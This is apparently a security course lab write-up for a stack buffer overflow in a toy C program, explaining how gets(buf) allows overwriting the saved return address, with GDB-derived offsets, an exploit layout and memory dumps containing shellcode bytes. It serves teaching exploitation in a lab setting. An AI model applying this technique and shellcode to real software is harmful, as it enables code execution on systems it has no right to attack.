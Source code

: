 # Question 1: Remus Write-up
## Main Idea
#### (A description of the vulnerability)

The code is vulnerable because ```gets(buf)``` does not check the length of the input from the user, which lets an attacker write past the end of the buffer. We insert shellcode above the saved return address on the stack (rip) and overwrite the rip with the address of shellcode.

## Magic Numbers
#### (How any relevant “magic numbers” were determined, usually with GDB)

We first determined the address of the buffer (0xbffffc18) and the address of the rip of the orbit function (0xbffffc2c). This was done by invoking GDB and setting a breakpoint at line 5.

```
(gdb) x/16x buf
0xbffffc18:  0x41414141  0xb7e5f200  0xb7fed270  0x00000000
0xbffffc28:  0xbffffc18  0x0804842a  0x08048440  0x00000000
0xbffffc38:  0x00000000  0xb7e454d3  0x00000001  0xbffffcb4
0xbffffc48:  0xbffffcbc  0xb7fdc858  0x00000000  0xbffffc1c

(gdb) i f
Stack frame at 0xbffffc10:
 eip = 0x804841d in orbit (orbit.c:8); saved eip 0x804842a
 called by frame at 0xbffffc40
 source language c.
 Arglist at 0xbffffc28, args:
 Locals at 0xbffffc28, Previous frame's sp is 0xbffffc30
 Saved registers:
  ebp at 0xbffffc28, eip at 0xbffffc2c
```

By doing so, we learned that the location of the return address from this function was 20 bytes away from the start of the buffer (0xbffffc2c - 0xbffffc18 = 20).

## Exploit Structure
#### (A description of your exploit structure)

Here is the stack diagram (You don’t need a stack diagram in your writeup).

```
rip (0xbffffc2c)
sfp
compiler padding
buf (0xbffffc18)
```

The exploit has three parts:

1. Write 20 dummy characters to overwrite buf, the compiler padding, and the sfp.

2. Overwrite the rip with the address of shellcode. Since we are putting shellcode directly after the rip, we overwrite the rip with 0xbffffc30 (0xbffffc2c + 4).

3. Finally, insert the shellcode directly after the rip.

This causes the orbit function to start executing the shellcode at address 0xbffffc30 when it returns.

## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)

When we ran GDB after inputting the malicious exploit string, we got the following output:

```
(gdb) x/16x buf
0xbffffc18:  0x61616161  0x61616161  0x61616161  0x61616161
0xbffffc28:  0x61616161  0xbffffc30  0xcd58326a 0x89c38980
0xbffffc38:  0x58476ac1  0xc03180cd  0x2f2f6850  0x2f686873
0xbffffc48:  0x546e6962  0x8953505b  0xb0d231e1  0x0080cd0b
```

After 20 bytes of garbage (blue), the rip is overwritten with 0xbffffc30 (red), which points to the shellcode directly after the rip (green).

Note: you don’t need to color-code your gdb output in your writeup.
